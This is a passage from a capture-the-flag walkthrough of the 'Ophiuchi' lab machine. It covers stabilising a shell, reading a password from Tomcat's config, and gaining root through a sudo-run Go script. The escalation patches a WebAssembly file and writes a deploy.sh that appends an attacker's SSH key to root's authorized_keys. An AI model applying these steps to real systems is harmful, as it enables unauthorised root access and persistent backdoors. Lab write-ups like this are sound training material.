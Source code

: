 ```
	4. `stty rows ROWS cols COLS`
	5. `export TERM=xterm-256color`
	6. `exec /bin/bash`
12. go find password in Tomcat config directory: `/opt/tomcat/conf/tomcat-users.xml`
13. SSH in as `admin :: whythereisalimit`
14. user.txt
15. sudo -l reveals a go script we can use for privesc
16. running it from home dir shows errors
17. Going to `/opt/wasm-functions/index.go` and check what it does
	1. We can see it's looking for a "main.wasm" from whatever folder we're in - notice the lack of absolute pathing
	2. Checks to see if "f" is set to 1 - checking if export of "info" is set to 1?
	3. If "f" is 1, run deploy.sh - notice lack of absolute path again
18. Install https://github.com/WebAssembly/wabt so that we can decrypt the main.wasm, and then build our own
19. Copy main.wasm from `/opt/wasm-funcions/main.wasm` to our box
	1. `build/wasm2wat ../../main.wasm > ../../main.wat`
	2. `cd ../../`
	3. `mv main.wasm main.wasm.bak`
	4. edit main.wat to have `(func $info (type 0) (result i32) i32.const 1)` (should be on 2 lines in file)
	5. `build/wat2wasm main.wat > main.wasm`
19. Write our own deploy.sh
	1. Start with a script to ping, then move up
	2. Edit the script to have it add in our SSH key to root's authorized_keys file
		1. IN KALI: `ssh-keygen -t rsa -b 4096 -f root`
		2. IN DEPLOY.SH: `echo '<SSH KEY>' >> /root/.ssh/authorized_keys`
20.	Move our main.wasm and deploy.sh over to Ophi
	1. scp deploy.sh admin@ophiuchi.htb:~/deploy.sh
21. execute from admin's home dir: `sudo /usr/bin/go run /opt/wasm-functions/index.go`
22. ssh in as root: `ssh -i root root@ophiuchi.htb`
23. root.txt
```

## >> REFERENCES

In the actual post:  
[https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858)  
[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)  
[https://youtu.be/u9Dg-g7t2l4?t=101](https://youtu.be/u9Dg-g7t2l4?t=101)  
[https://blog.mrtnrdl.de/infosec/2019/05/23/obtain-a-full-interactive-shell-with-zsh.html](https://blog.mrtnrdl.de/infosec/2019/05/23/obtain-a-full-interactive-shell-with-zsh.html)  
[https://github.com/WebAssembly/wabt](https://github.com/WebAssembly/wabt)  

Extra reading:
[https://webassembly.org/getting-started/advanced-tools/](https://webassembly.org/getting-started/advanced-tools/)  
[https://zetcode.com/golang/exec-command/](https://zetcode.com/golang/exec-command/)  
[https://gist.github.com/yougg/b47f4910767a74fcfe1077d21568070e](https://gist.github.com/yougg/b47f4910767a74fcfe1077d21568070e)  
[https://spectrum.chat/wasmer/general/compiling-go-to-wasm-with-exported-functions~e0139c5b-e512-43e4-84b2-97f4c882908e](https://spectrum.chat/wasmer/general/compiling-go-to-wasm-with-exported-functions~e0139c5b-e512-43e4-84b2-97f4c882908e)  
[https://opensource.com/article/19/4/command-line-playgrounds-webassembly](https://opensource.com/article/19/4/command-line-playgrounds-webassembly)  
[https://github.com/golang/go/wiki/WebAssembly#getting-started](https://github.com/golang/go/wiki/WebAssembly#getting-started)  
[https://stackoverflow.com/questions/20829155/how-to-cross-compile-from-windows-to-linux](https://stackoverflow.com/questions/20829155/how-to-cross-compile-from-windows-to-linux)  
[https://tutorialedge.net/golang/executing-system-commands-with-golang/](https://tutorialedge.net/golang/executing-system-commands-with-golang/)  
